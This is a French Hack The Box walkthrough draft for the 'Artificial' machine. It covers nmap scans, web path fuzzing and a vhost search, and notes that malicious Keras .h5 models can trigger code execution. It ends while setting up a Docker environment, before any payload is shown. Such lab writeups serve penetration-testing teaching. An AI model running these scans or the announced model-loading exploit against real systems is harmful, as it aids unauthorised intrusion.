








---
# === Archetype writeups – v1 (stable) ===
# === Archetype: writeups (Page Bundle) ===
# Copié vers content/writeups/<nom_ctf>/index.md

# H1 SEO (via title, pas dans le markdown)
title: "Artificial — HTB Easy Writeup & Walkthrough"
linkTitle: "Artificial"
slug: "artificial"
date: 2026-05-04T09:00:00+02:00
#lastmod: 2026-04-25T10:14:07+02:00
draft: true

# --- PaperMod / navigation ---
type: "writeups"
summary: "Artificial (HTB Easy) : RCE via upload TensorFlow puis élévation de privilèges avec Backrest."
description: "Writeup de Artificial (HTB Easy) : exploitation d’un upload TensorFlow pour RCE, puis élévation de privilèges via Backrest."
tags: ["Hack The Box","HTB Easy","linux-privesc","Web","RCE","TensorFlow","Keras"]
categories: ["Mes writeups"]

# Ajouter ensuite uniquement des tags techniques réellement utilisés dans le writeup,
# par exemple :
# - prise de pied : "Web", "SSH", "FTP"
# - faille : "XSS", "LFI", "RCE", "Path Traversal", "Shellshock"
# - techno / produit : "Grafana", "Chamilo", "CMS Made Simple", "js2py"
# - CVE : "CVE-2021-43798"
# - pivot : "Credential Reuse"
# - privesc spécifique : "sudo", "Docker", "Cron", "ACL", "PATH Hijacking", "tmux", "npbackup", "pspy64"

# --- TOC & mise en page ---
ShowToc: true
TocOpen: true
# toc_droite: 1

# --- Cover / images (Page Bundle) ---
cover:
  image: "image.png"
  alt: "Artificial HTB Easy : exploitation d’un modèle TensorFlow pour exécution de code puis élévation de privilèges via un service de sauvegarde."
  caption: ""
  relative: true
  hidden: false
  hiddenInList: false
  hiddenInSingle: false

# --- Paramètres CTF (placeholders à éditer après création) ---
ctf:
  platform: "Hack The Box"
  machine: "Artificial"
  difficulty: "Easy"
  target_ip: "10.129.x.x"
  skills: ["Enumeration","Web","RCE","Privilege Escalation"]
  time_spent: "2h"
  # vpn_ip: "10.10.14.xx"
  # notes: "Points d'attention…"

# --- Options diverses ---
# weight: 10
# ShowBreadCrumbs: true
# ShowPostNavLinks: true

# --- SEO Reminders (à compléter après création) ---
# 1) Titre :
#    - Doit contenir : Nom Machine + HTB Easy + Writeup
# 2) Description :
#    - Résumé 130–160 caractères
#    - Style “Mix Parfait” : pédagogique + technique
#    - Exemple : "Writeup de <machine> (HTB Easy) : énumération claire, analyse de la vulnérabilité et escalade structurée."
# 3) ALT (image de couverture) :
#    - Mixer vulnérabilité + pédagogie + progression
#    - Exemple : "Machine <machine> HTB Easy vulnérable à <faille>, expliquée étape par étape jusqu'à l'escalade."
# 4) Tags :
#    - Toujours ["Easy"]
#    - Ajouter d'autres selon le thème : ["web","shellshock","heartbleed","enum"]
# 5) Structure :
#    - H1 = titre
#    - Description = meta description + preview social
#    - ALT = SEO image + accessibilité

# --- SEO CHECKLIST (à valider avant publication) ---

# [ ] 1) Titre (title + H1)
#     - Contient : Nom Machine + HTB Easy + Writeup
#     - Unique sur le site
#     - Lisible hors contexte HTB

# [ ] 2) Description (meta)
#     - 130–160 caractères
#     - Pas générique
#     - Ton pédagogique + technique
#     - Exemple :
#       "Writeup de <machine> (HTB Easy) : énumération claire,
#        compréhension de la vulnérabilité et escalade structurée."

# [ ] 3) Image de couverture
#     - Présente (ou fallback)
#     - Nom explicite
#     - Dimensions cohérentes

# [ ] 4) ALT de l’image
#     - Décrit la machine + l’approche
#     - Pédagogique (pas juste technique)
#     - Exemple :
#       "Machine <machine> HTB Easy exploitée étape par étape,
#        de l’énumération à l’escalade de privilèges."

# [ ] 5) Tags
#     - Toujours inclure la difficulté (ex: "Easy")
#     - Ajouter uniquement des tags techniques réels

# [ ] 6) Structure du contenu
#     - Un seul H1
#     - Sections claires et hiérarchisées
#     - Pas de sections SEO artificielles

---

<!-- ====================================================================
Tableau d'infos (modèle) — Remplacer les valeurs entre <...> après création.
Aucun templating Hugo dans le corps, pour éviter les erreurs d'archetype.
====================================================================
| Champ          | Valeur |
|----------------|--------|
| **Plateforme** | <Hack The Box> |
| **Machine**    | <Artificial> |
| **Difficulté** | <Easy / Medium / Hard> |
| **Cible**      | <10.129.x.x> |
| **Durée**      | <2h> |
| **Compétences**| <Enumeration, Web, Privilege Escalation> |

---
-->
## Introduction

Artificial est une machine Hack The Box Easy orientée exploitation web et élévation de privilèges Linux.

Le point d’entrée repose sur l’upload de modèles TensorFlow/Keras au format `.h5`.
Ce type de fichier, normalement utilisé pour stocker des modèles d’intelligence artificielle, peut dans certaines conditions déclencher une exécution de code lors de son chargement par l’application.

En exploitant ce comportement, tu obtiens une RCE directement depuis l’interface web, puis un accès SSH à la machine.

L’énumération locale met ensuite en évidence un élément souvent sous-estimé dans les environnements Linux : l’appartenance à un groupe système.

Ici, le groupe `sysadm` permet d’accéder à des sauvegardes contenant des informations sensibles menant à un service interne Backrest exploitable pour atteindre `/root`.

Ce writeup montre notamment comment :

- exploiter un upload de modèle TensorFlow/Keras pour obtenir une RCE ;
- utiliser des accès indirects via groupes Linux et sauvegardes ;
- pivoter vers un service interne de backup ;
- exploiter un service légitime pour obtenir un accès root.

L’accent est mis sur une approche structurée : énumération, exploitation applicative, analyse des accès indirects et élévation de privilèges.

---

## Énumération



### Scan initial

Le scan TCP complet (`scans_nmap/full_tcp_scan.txt`) montre les ports ouverts suivants :

```bash
# Nmap 7.98 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -Pn -p- --min-rate 5000 -T4 -oN scans_nmap/full_tcp_scan.txt artificial.htb
Nmap scan report for artificial.htb (10.129.x.x)
Host is up (0.047s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

# Nmap done at [date] -- 1 IP address (1 host up) scanned in 6.83 seconds

```

### Scan FTP/SMB (si services détectés)

Après le scan initial, le script exécute automatiquement une phase d’énumération ciblée **FTP/SMB** si l’un des services suivants est détecté :

- **FTP** sur le port **21**
- **SMB** sur le port **139** et/ou **445**

Les résultats sont enregistrés dans (`scans_nmap/enum_ftp_smb_scan.txt`) :

```bash
# mon-nmap — ENUM FTP / SMB
# Target : artificial.htb
# Date   : [date]

Aucun service FTP (21) ni SMB (139/445) détecté.
Ports ouverts détectés : 22,80
```


### Scan agressif

Le script exécute ensuite automatiquement un scan agressif orienté vulnérabilités.

Ce scan fournit des informations détaillées sur les services et versions détectés.

Les résultats sont enregistrés dans (`scans_nmap/aggressive_vuln_scan.txt`) :

```bash
[+] Scan agressif orienté vulnérabilités (CTF-perfect LEGACY) pour artificial.htb
[+] Commande utilisée :
    nmap -Pn -A -sV -p"22,80" --script="(http-vuln-* or http-shellshock or ssl-heartbleed) and not (http-vuln-cve2017-1001000 or http-sql-injection or ssl-cert or sslv2 or ssl-dh-params)" --script-timeout=30s -T4 "artificial.htb"

# Nmap 7.98 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -Pn -A -sV -p22,80 "--script=(http-vuln-* or http-shellshock or ssl-heartbleed) and not (http-vuln-cve2017-1001000 or http-sql-injection or ssl-cert or sslv2 or ssl-dh-params)" --script-timeout=30s -T4 -oN scans_nmap/aggressive_vuln_scan_raw.txt artificial.htb
Nmap scan report for artificial.htb (10.129.x.x)
Host is up (0.012s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   58.95 ms 10.10.x.x
2   6.72 ms  artificial.htb (10.129.x.x)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr 25 10:06:27 2026 -- 1 IP address (1 host up) scanned in 14.80 seconds

```


### Scan ciblé CMS

Le script exécute ensuite un scan ciblé CMS (scans_nmap/cms_vuln_scan.txt).

```
# Nmap 7.98 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -Pn -sV -p22,80 --script=http-wordpress-enum,http-wordpress-brute,http-wordpress-users,http-drupal-enum,http-drupal-enum-users,http-joomla-brute,http-generator,http-robots.txt,http-title,http-headers,http-methods,http-enum,http-devframework,http-cakephp-version,http-php-version,http-config-backup,http-backup-finder,http-sitemap-generator --script-timeout=30s -T4 -oN scans_nmap/cms_vuln_scan.txt artificial.htb
Nmap scan report for artificial.htb (10.129.x.x)
Host is up (0.013s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Artificial - AI Solutions
|_http-devframework: Couldn't determine the underlying framework or CMS. Try increasing 'httpspider.maxpagecount' value to spider more pages.
| http-sitemap-generator: 
|   Directory structure:
|     /
|       Other: 3
|     /static/css/
|       css: 1
|     /static/js/
|       js: 1
|   Longest directory structure:
|     Depth: 2
|     Dir: /static/css/
|   Total files found (by extension):
|_    Other: 3; css: 1; js: 1
| http-headers: 
|   Server: nginx/1.18.0 (Ubuntu)
|   Date: [date]
|   Content-Type: text/html; charset=utf-8
|   Content-Length: 5442
|   Connection: close
|   
|_  (Request type: HEAD)
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at [date] -- 1 IP address (1 host up) scanned in 36.73 seconds

```


### Scan UDP rapide

Le script lance également un scan UDP rapide afin de détecter d’éventuels services supplémentaires (`scans_nmap/udp_vuln_scan.txt`).

```bash
# Nmap 7.98 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -n -Pn -sU --top-ports 20 -T4 -oN scans_nmap/udp_vuln_scan.txt artificial.htb
Nmap scan report for artificial.htb (10.129.x.x)
Host is up (0.010s latency).

PORT      STATE         SERVICE
53/udp    closed        domain
67/udp    closed        dhcps
68/udp    open|filtered dhcpc
69/udp    open|filtered tftp
123/udp   closed        ntp
135/udp   closed        msrpc
137/udp   closed        netbios-ns
138/udp   open|filtered netbios-dgm
139/udp   open|filtered netbios-ssn
161/udp   closed        snmp
162/udp   closed        snmptrap
445/udp   open|filtered microsoft-ds
500/udp   closed        isakmp
514/udp   closed        syslog
520/udp   closed        route
631/udp   open|filtered ipp
1434/udp  closed        ms-sql-m
1900/udp  closed        upnp
4500/udp  closed        nat-t-ike
49152/udp open|filtered unknown

# Nmap done at [date] -- 1 IP address (1 host up) scanned in 10.20 seconds

```


### Énumération des chemins web
Pour la découverte des chemins web, tu peux utiliser le script dédié 

```bash
mon-recoweb artificial.htb

# Résultats dans le répertoire scans_recoweb/
#  - scans_recoweb/RESULTS_SUMMARY.txt     ← vue d’ensemble des découvertes
#  - scans_recoweb/dirb.log
#  - scans_recoweb/dirb_hits.txt
#  - scans_recoweb/ffuf_dirs.txt
#  - scans_recoweb/ffuf_dirs_hits.txt
#  - scans_recoweb/ffuf_files.txt
#  - scans_recoweb/ffuf_files_hits.txt
#  - scans_recoweb/ffuf_dirs.json
#  - scans_recoweb/ffuf_files.json

```

Le fichier `RESULTS_SUMMARY.txt` regroupe les chemins découverts, sans parcourir l’ensemble des logs générés.

```bash
===== mon-recoweb — RÉSUMÉ DES RÉSULTATS =====
Commande principale : /home/kali/.local/bin/mes-scripts/mon-recoweb
Script              : mon-recoweb v2.2.2

Cible        : artificial.htb
Périmètre    : /
Date début   : [date]

Commandes exécutées (exactes) :

[dirb — découverte initiale]
dirb http://artificial.htb/ /usr/share/wordlists/dirb/common.txt -r | tee scans_recoweb/artificial.htb/dirb.log

[ffuf — énumération des répertoires]
ffuf -u http://artificial.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 30 -timeout 10 -fc 404 -of json -o scans_recoweb/artificial.htb/ffuf_dirs.json 2>&1 | tee scans_recoweb/artificial.htb/ffuf_dirs.log

[ffuf — énumération des fichiers]
ffuf -u http://artificial.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -t 30 -timeout 10 -fc 404 -of json -o scans_recoweb/artificial.htb/ffuf_files.json 2>&1 | tee scans_recoweb/artificial.htb/ffuf_files.log

Processus de génération des résultats :
- Les sorties JSON produites par ffuf constituent la source de vérité.
- Les entrées pertinentes sont extraites via jq (URL, code HTTP, taille de réponse).
- Les réponses assimilables à des soft-404 sont filtrées par comparaison des tailles et des codes HTTP.
- Les URLs finales sont reconstruites à partir du périmètre scanné (racine du site ou sous-répertoire ciblé).
- Les résultats sont normalisés sous la forme :
    http://cible/chemin (CODE:xxx|SIZE:yyy)
- Les chemins sont ensuite classés par type :
    • répertoires (/chemin/)
    • fichiers (/chemin.ext)
- Le fichier RESULTS_SUMMARY.txt est généré par agrégation finale, sans retraitement manuel,
  garantissant la reproductibilité complète du scan.

----------------------------------------------------

=== Résultat global (agrégé) ===

http://artificial.htb/dashboard (CODE:302|SIZE:199)
http://artificial.htb/dashboard/ (CODE:302|SIZE:199)
http://artificial.htb/login (CODE:200|SIZE:857)
http://artificial.htb/login/ (CODE:200|SIZE:857)
http://artificial.htb/logout (CODE:302|SIZE:189)
http://artificial.htb/logout/ (CODE:302|SIZE:189)
http://artificial.htb/register (CODE:200|SIZE:952)
http://artificial.htb/register/ (CODE:200|SIZE:952)

=== Détails par outil ===

[DIRB]
http://artificial.htb/dashboard (CODE:302|SIZE:199)
http://artificial.htb/login (CODE:200|SIZE:857)
http://artificial.htb/logout (CODE:302|SIZE:189)
http://artificial.htb/register (CODE:200|SIZE:952)

[FFUF — DIRECTORIES]
http://artificial.htb/dashboard/ (CODE:302|SIZE:199)
http://artificial.htb/login/ (CODE:200|SIZE:857)
http://artificial.htb/logout/ (CODE:302|SIZE:189)
http://artificial.htb/register/ (CODE:200|SIZE:952)

[FFUF — FILES]

```


### Recherche de vhosts

Enfin, tu peux tester la présence de vhosts à l’aide du script .

```bash
=== mon-subdomains artificial.htb START ===
Script       : mon-subdomains
Version      : mon-subdomains 2.0.0
Date         : [date]
Domaine      : artificial.htb
IP           : 10.129.x.x
Mode         : large
Master       : /usr/share/wordlists/htb-dns-vh-5000.txt
Codes        : 200,301,302,401,403  (strict=1)

VHOST totaux : 0
  - (aucun)

--- Détails par port ---
Port 80 (http)
  Baseline#1: code=302 size=154 words=10 (Host=bwg02cmdzi.artificial.htb)
  Baseline#2: code=302 size=154 words=10 (Host=p0y7gkag0w.artificial.htb)
  Baseline#3: code=302 size=154 words=10 (Host=de4wfhnv5u.artificial.htb)
  After-redirect#1: code=200 size=5442 words=472
  After-redirect#2: code=200 size=5442 words=472
  After-redirect#3: code=200 size=5442 words=472
  VHOST (0)
    - (aucun)


=== mon-subdomains artificial.htb END ===


```

Si aucun vhost distinct n’est identifié, ce fichier confirme l’absence de résultats supplémentaires.

## Prise pied

À l’issue de l’énumération, la surface d’attaque se limite à un service web exposé sur le port 80, accompagné d’un accès SSH sur le port 22.

L’application web, intitulée "Artificial - AI Solutions", ne repose sur aucun CMS identifié et semble être une implémentation custom. Les chemins découverts (`/login`, `/register`, `/dashboard`, `/logout`) indiquent la présence d’un système d’authentification avec espace utilisateur.

Aucune vulnérabilité évidente n’est détectée automatiquement, ce qui oriente l’analyse vers une faille applicative nécessitant une interaction directe avec les fonctionnalités proposées par le site.

À partir des endpoints identifiés, tu vas maintenant interagir avec l’application en commençant par créer un compte via `/register`, puis en testant l’authentification sur `/login` afin d’accéder à l’espace utilisateur (`/dashboard`).


Le formulaire d’upload impose le format `.h5`, ce qui indique que seuls des modèles Keras/TensorFlow peuvent être envoyés via l’interface *Browse*.


Le format `.h5` correspond à un fichier de modèle Keras basé sur HDF5. Ce type de fichier n’est pas un simple format statique : il peut contenir des structures complexes utilisées lors du chargement du modèle.

Dans certaines configurations, le chargement d’un modèle Keras via `load_model()` peut entraîner l’exécution de code si le fichier est malveillant ou manipulé.

Cela en fait une surface d’attaque potentielle intéressante à tester.

À partir de cette observation, tu vas chercher à créer un fichier `.h5` contrôlé afin de vérifier si le serveur charge réellement le modèle côté backend, et si ce chargement peut être détourné pour exécuter du code.

### Création d'un environnement de travail local

Tu commences par vérifier si `TensorFlow` est déjà installé sur ton système local :

```bash
pip3 show tensorflow
WARNING: Package(s) not found: tensorflow
```

Aucune installation de `TensorFlow`  n’est détectée. Or, le fichier `requirements.txt` fourni par l’application impose une version précise :

```txt
tensorflow-cpu==2.13.1
```

> Même si `TensorFlow`  était déjà présent sur le système, un écart de version représenterait un risque d’incompatibilité.

Installer `TensorFlow`  localement peut s’avérer fastidieux et n’est pas nécessaire : le `Dockerfile` fourni par le `dashboard` décrit précisément l’environnement attendu (**Python 3.8 + TensorFlow 2.13.1**).

Tu t’appuies donc sur ce `Dockerfile` pour recréer un environnement de travail identique à celui du serveur.

Cela te permet de générer des modèles `.h5` compatibles avec l’application cible.

#### Création du conteneur Docker

À partir du `Dockerfile` récupéré, tu construis une image Docker :

```bash
docker build -t artificial-tf .
```

Cette commande crée une image nommée `artificial-tf` contenant l’environnement Python 3.8 + TensorFlow 2.13.1.

#### Lancement du conteneur

Tu démarres ensuite un conteneur interactif en liant ton répertoire local Kali au répertoire de travail du conteneur :

```bash
docker run --privileged -it -v $(pwd):/code artificial-tf
```

- L’option `-it` permet d’obtenir un shell interactif dans le conteneur.

- L’option `--privileged` donne des droits étendus au conteneur, ce qui évite des limitations qui pourraient gêner les tests dans ton environnement local.

Le conteneur s’exécute localement sur ta machine Kali, et le répertoire courant est monté dans `/code` à l’intérieur du conteneur.

Cela te permet de créer les fichiers `.h5` depuis le conteneur tout en les retrouvant directement dans ton répertoire local sur Kali.

> **Note**: Les fichiers `.h5` et scripts Python utilisés sont disponibles dans la section [Pièces jointes](#pièces-jointes).

### Génération d’un modèle minimal

Avant de créer des fichiers POC `.h5` (preuve de concept), tu commences par générer un modèle Keras minimal et valide.

L’objectif est de vérifier que l’environnement Docker fonctionne correctement et que tu peux produire un fichier `.h5` compatible avec ce que l’application attend.

Dans le conteneur, tu installes d’abord un éditeur de texte, par exemple `nano` :

```bash
apt update
apt install -y nano

```

Tu peux ensuite créer tes scripts Python directement dans le conteneur :

```bash
nano minimal.py
```

Puis tu ajoutes le code suivant, inspiré de l’exemple fourni sur le dashboard et simplifié au strict minimum :

```python
import tensorflow as tf
from tensorflow import keras
from tensorflow.keras import layers

model = keras.Sequential([
    layers.Dense(1, input_shape=(1,))
])

model.compile(optimizer="adam", loss="mean_squared_error")

model.save("minimal.h5")
```

Tu exécutes ensuite le script **dans le conteneur** :

```bash
python3 minimal.py
ls -lh minimal.h5
```

